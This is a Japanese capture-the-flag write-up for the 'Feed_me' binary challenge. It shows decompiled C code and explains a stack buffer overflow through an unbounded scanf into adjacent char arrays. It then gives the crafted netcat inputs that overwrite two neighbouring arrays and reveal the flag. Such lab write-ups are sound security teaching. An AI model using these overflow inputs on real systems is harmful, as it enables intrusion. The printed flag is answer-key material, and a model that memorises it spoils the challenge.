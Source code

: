 # Challenge

> Feed_me

> 150 point

> Can you cook the most delicious recipe?

> nc 159.89.166.12 9800

> file: challenge1

# Solution

### 1. デコンパイルツール(Ghidra)を使ってCのコードに変換する  
これについてtakachimaくんがやってくれた．デコンパイルされたコードはGitのリポジトリに置いた．  
というかデコンパイルされたコードが共有されたからこの問題に手を出した．

### 2. コードを読んでFlagを入手出来る条件を理解する  
コードの重要な部分からたどって読んでいく．Cになっているのでこの作業は大分楽である．このプログラムは以下の動作を行う．

1. 3つのint型変数，iVar4, iVar5, iVar6と3つのchar型配列local_76[10],  local_6c[10], local_62[10]を定義する．なお，これ以降簡単化のため，int型変数をそれぞれA,B,C char型配列をされぞれx,y,zとする．  
2. 現在時刻をシード値として 0 ～ -19998のランダムな偶数を3つ決めて，A,B,Cに格納する．  
3. **scanf**を使ってユーザーからの入力を受け付ける．入力をxに格納する（y, zには格納しない）．  
4. if(A == x+y), if(B==y+z), if(C==z+x)が満たさればFlagを出力して，そうでないならば失敗のメッセージを出力する．その後終了する．

プログラム以下の部分からフラグの入手方法が分かる．  
ここで，f(A == x+y), if(B==y+z), if(C==z+x)という条件文をすべて満たせばフラグが獲得出来ることが理解出来る．  
```  
 do {  
   sVar8 = strlen(local_76);  
   if (sVar8 <= (ulong)(long)local_9c) {  
     iVar4 = atoi(local_76);  
     iVar5 = atoi(local_6c);  
     iVar6 = atoi(local_62);  
     if (uVar1 == iVar5 + iVar4) {  
       if (uVar2 == iVar6 + iVar5) {  
         if (uVar3 == iVar4 + iVar6) {  
           __stream = fopen("flag.txt","r");  
           if (__stream == (FILE *)0x0) {  
             fwrite("\nflag.txt doesn\'texist.\n",1,0x19,stderr);  
                   /* WARNING: Subroutine does notreturn */  
             exit(0);  
           }  
           fgets(local_58,0x32,__stream);  
           printf("That\'s yummy.... Here is yourgift:\n%s",local_58);  
         }  
         else {  
           fail();  
         }  
       }  
       else {  
         fail();  
       }  
     }  
     else {  
       fail();  
     }  
```

次に，A, B, C, x, y, zがどのようにして決まるかを見ていく．  
A,B,Cはプログラム側がランダムに決めることが分かる．そして同時に，取りうる範囲が0 ～ -19998の偶数であることも分かる．  
```  
 tVar7 = time((time_t *)0x0);  
 srand((uint)tVar7);  
 iVar4 = rand();  
 uVar1 = (iVar4 % 10000) * -2;  
 iVar4 = rand();  
 uVar2 = (iVar4 % 10000) * -2;  
 iVar4 = rand();  
 uVar3 = (iVar4 % 10000) * -2;

```

xは`__isoc99_scanf(&DAT_00100de2,local_76);`の1文によってユーザーから入力される．`__isoc99_scanf`は標準入力から値を受け取るscanf関数である．  
y, zはプログラムないでは変更されない(左辺にこない)．  
y,
zを適切にさだめなければFlagはとれないが，y,zに値を入れる方法はない．ここで変数宣言部を見てみるとchar型配列のx,y,zは連続して宣言されている．

```  
 int local_9c;  
 char local_76 [10];  
 char local_6c [10];  
 char local_62 [10];  
 char local_58 [56];  
 long local_20;  
```  
ここで，scanfでバッファオーバーフローを起こしてy,zに値を入れられるのでは？と思った．

### 3. バッファオーバーフローを利用して３つの変数にあを格納する  
入力された値はatoi関数で数値化されるので，ここにいい感じの数値を打ち込んでやればいい．  
各変数の配列長は10なので，余っている部分は0埋めする．

x,y,zの条件は，if文を等式とみなして連立方程式を解くと  
- x = 1/2(A-B+C)  
- y = 1/2(A+B-C)  
- z = 1/2(-A+B+C)  
であることが分かる．あ^～，だからA,B,Cは2の倍数だったんですね．

それを踏まえて入力．．．  
```  
$ nc 159.89.166.12 9800  
Can you cook my favourite food using these ingredients :)  
-1530 ; -4376 ; -15962 ;  
-0000065580000005028-000009404  
No, I dont want this... :(  
```

あれ～おかしいね旗取れないね: と思ったら数字が偏っているせいでxとyが１つの数字として認識されてしまっている．  
もう１度トライ．

```  
$ nc 159.89.166.12 9800  
Can you cook my favourite food using these ingredients :)  
-11014 ; -10620 ; -13566 ;  
-000006980-000004034-000006586  
That's yummy.... Here is your gift:  
pctf{p1zz4_t0pp3d_w1th_p1n34ppl3_s4uc3}  
```

# Clue  
- atioは記号を認識してくれるので数字偏っても先頭に+をつければ分けてくれると思う

Original writeup (https://github.com/wani-hackase/wani-
writeup/tree/master/2019/03-pragyan/bin-feed-me).